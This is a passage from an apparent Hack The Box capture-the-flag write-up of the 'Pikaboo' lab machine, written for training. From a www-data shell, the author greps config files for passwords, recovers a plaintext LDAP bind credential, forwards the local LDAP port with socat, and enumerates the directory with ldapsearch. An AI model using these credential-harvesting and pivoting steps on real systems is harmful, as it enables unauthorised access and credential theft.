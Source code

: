 Interesting, it does in fact execute our shell commands. It seems like we have the path forward, but first we need to login or get the pwnmeow's password as he's in the ftp group and can write arbitrary files to the /srv/ftp/ directory, that the vulnerably perl script will then execute for us.

I just perform a recursive grep for pass to see if anything comes up:
Grep for pass recursively:
```
www-data@pikaboo:/opt/pokeapi$ grep -ri pass *
```

We get a couple hits, the first is some pokeapi password and the second is some type of LDAP password:
```
DATABASES = {
    "ldap": {
        "ENGINE": "ldapdb.backends.ldap",
        "NAME": "ldap:///",
        "USER": "cn=binduser,ou=users,dc=pikaboo,dc=htb",
        "PASSWORD": "J~42%W?PFHl]g",
    },
    "default": {
        "ENGINE": "django.db.backends.sqlite3",
        "NAME": "/opt/pokeapi/db.sqlite3",
    }
}
```

Running netstat -tulpn as the www-data user shows that the LDAP port is opened only on localhost, so that explains why our external nmap scan didn't see it open. To get easier access to the local LDAP port, let's use socat for a local port forward:
```
[/home/gn0stic/htb/tools/bin] λ ./socat TCP4-LISTEN:6666,fork,reuseaddr TCP4:127.0.0.1:389
```

Now, let's enumerate ldap with ldapsearch:
```
[/home/gn0stic/htb/tools/bin] λ ldapsearch -x -h pikaboo.htb:6666 -b "dc=pikaboo,dc=htb" "objectclass=*" -w "J~42%W?PFHl]g" -D "cn=binduser,ou=users,dc=pikaboo,dc=htb"

# extended LDIF
#
# LDAPv3
# base <dc=pikaboo,dc=htb> with scope subtree
# filter: objectclass=*
# requesting: ALL
#

# pikaboo.htb
dn: dc=pikaboo,dc=htb
objectClass: domain
dc: pikaboo

# ftp.pikaboo.htb
dn: dc=ftp,dc=pikaboo,dc=htb
objectClass: domain
dc: ftp

# users, pikaboo.htb
dn: ou=users,dc=pikaboo,dc=htb
objectClass: organizationalUnit
objectClass: top
ou: users

# pokeapi.pikaboo.htb
dn: dc=pokeapi,dc=pikaboo,dc=htb
objectClass: domain
dc: pokeapi
```

[1]: https://app.hackthebox.com/users/157669
[2]: https://www.acunetix.com/vulnerabilities/web/path-traversal-via-misconfigured-nginx-alias/
[3]: https://book.hacktricks.xyz/pentesting/pentesting-web/nginx
[4]: https://wiki.sei.cmu.edu/confluence/pages/viewpage.action?pageId=88890543
[5]: https://www.hackthebox.eu